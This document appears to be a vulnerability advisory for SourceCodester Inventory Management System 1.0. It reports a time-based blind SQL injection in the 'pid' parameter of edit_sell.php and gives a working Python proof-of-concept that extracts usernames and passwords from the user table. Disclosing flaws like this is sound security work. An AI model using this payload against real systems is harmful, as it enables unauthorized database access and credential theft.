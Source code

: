 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in edit_sell.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in edit_sell.php. Affected is file edit_sell.php, the manipulation of the argument `pid` leads to SQL injection. Remote attackers can exploit SQL time-based blind injection to retrieve all data from the database.

## Vulnerability Code

- app/action/edit_sell.php
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/e9df71e6-5148-4af5-8f42-38dca541e935)



## POC
```python
import time 
import requests
import string 

dict = string.digits + string.ascii_lowercase + string.punctuation
res = ""
dealy = 2

for i in range(1,50):
    for j in dict:
        start = time.time()
        payload = {
            # "pid[0]":'-1 or if(substr(database(),%s,1)="%s",sleep(2),1)' % (i,j)
            "pid[0]":'-1 or if(substr((select group_concat(username,password) from user),%s,1)="%s",sleep(2),1)' % (i,j),
            "totalPrice":"0"
        }
        req = requests.post("http://localhost:81/app/action/edit_sell.php", data=payload)
        end = time.time() - start
        if end > dealy:
            res += j
            print('[*] Found:' + res)
            break
```

![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/c6c0bd7b-e7ce-4ba2-b800-726bb2edf2b0)
